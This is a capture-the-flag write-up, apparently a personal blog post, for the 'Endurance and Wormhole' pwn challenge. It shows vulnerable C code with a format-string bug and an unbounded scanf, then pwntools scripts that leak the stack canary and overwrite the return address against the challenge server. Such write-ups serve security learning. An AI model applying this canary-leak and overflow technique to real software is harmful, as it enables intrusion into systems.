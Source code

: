 ```yaml
---
author: atch2203
pubDatetime: 2024-11-01
title: Endurance and Wormhole Writeup
featured: false
draft: false
tags:
  - cybersec
  - writeups
description: writeup for minuteman CTF pwn challenge
---
```


This is a writeup I did for a medium pwn challenge "Endurance and Wormhole" for Minuteman CTF.

We're given [source](https://storage.googleapis.com/static-challs-assets-88819/pwn/endurance-and-wormhole/static/wormhole.c)!

```c
char buf[8] = {0};
scanf("%5s",buf);
printf(buf);
puts("Cool! Let's go towards the wormhole!");
scanf("%s", buf);
```

It looks like our goal is to ret to the wormhole function, and we're given a printf and arbitrary length scanf. The issue here is that canary is enabled and detects whenever we overwrite the ret address.
![alt text](@assets/images/writeups/wormhole/20241101132349.png)

We can only put 5 characters into printf, so we're gonna have to make our canary leak precise.

## Playing around with the printf

Let's see what happens when we send `%i$p`

1) 0xa
2) nil
3) nil
4) 0x402011
5) inconsistent
6) 0x70243625
7) inconsistent
8) inconsistent, but starts with 0x7fff
9) inconsistent, but ends with 24a (1ca on remote/actual challenge)

There's not really much I can do with this information, but at least we know the printf leak works.

## Looking for the canary

Let's pop the binary into ghidra now. Looking at the second line of main, the stack moves down by 16, which might explain the canary activating after we send ~13 chars.

```asm
00401291 48 83 ec 10     SUB        RSP,0x10
```

Let's try to simply overwrite the canary without being kicked out. As shown above, writing more than 13 bytes will trigger the canary. That means we want to copy what is in `(rsp+8)`, which can be done with `%7$p`.
![alt text](@assets/images/writeups/wormhole/20241101140338.png)

## overflowing without disturbing the canary

Now we want to send that back in the same place so the canary doesn't change:

```python
from pwn import *

p = gdb.debug('./wormhole')

p.clean()
p.sendline(b"%7$p")

output = p.recvuntil(b"Cool")[:-4]
canary = int(output, 16)
print(hex(canary))

payload = b"12345678" + p64(canary) + b"ebpthing"

p.sendline(payload)

p.interactive()
```

Looks like it works! We were able to overwrite the old ebp (right after the canary) without disturbing the canary.
![alt text](@assets/images/writeups/wormhole/20241101140811.png)

## putting it all together

Looking at the disassembly, we want to jump to `004011d2`.
![alt text](@assets/images/writeups/wormhole/20241101140847.png)

With the script we had before, all we just need to do is send the address right after the old ebp.

```python
from pwn import *

p = remote("pwn-challenges.minuteman.umasscybersec.org", 9004)

p.recvline()
p.recvline()
p.sendline(b"%7$p")
output = p.recvuntil(b"Cool")[:-4]
canary = int(output, 16)

payload = b"12345678" + p64(canary) + b"ebpthing" + p64(0x004011d2)

p.sendline(payload)

p.interactive()
```

and it works!

![alt text](@assets/images/writeups/wormhole/20241101141142.png)
